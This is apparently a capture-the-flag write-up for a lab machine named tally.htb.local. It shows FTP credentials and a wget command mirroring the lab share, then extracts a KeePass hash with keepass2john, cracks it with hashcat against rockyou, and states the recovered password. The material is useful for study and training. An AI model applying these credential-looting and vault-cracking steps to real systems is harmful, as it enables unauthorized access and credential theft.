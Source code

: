 # FTP movement

Creds: ftp_user:UTDRSCH53c"$6hys

![[Pasted image 20211116042655.png]]

Have a few folder, so a use the wget -- mirror to download all

```bash
$ wget --mirror 'ftp://ftp_user:UTDRSCH53c"$6hys@tally.htb.local
```

### Interisting files
* ./Intranet/Binaries/Firefox Setup 44.0.2.exe
* ./Tim/Files/tim.kdbx

### Cracking tim.kdbx
```bash
$ keepass2john tim.kdbx 
tim:$keepass$*2*6000*0*f362b5565b916422607711b54e8d0bd20838f5111d33a5eed137f9d66a375efb*3f51c5ac43ad11e0096d59bb82a59dd09cfd8d2791cadbdb85ed3020d14c8fea*3f759d7011f43b30679a5ac650991caa*b45da6b5b0115c5a7fb688f8179a19a749338510dfe90aa5c2cb7ed37f992192*535a85ef5c9da14611ab1c1edc4f00a045840152975a4d277b3b5c4edc1cd7da
```

```bash
$ hashcat -m 13400 timhash.kdbx /usr/share/wordlists/rockyou.txt --force
```

Password: simplementeyo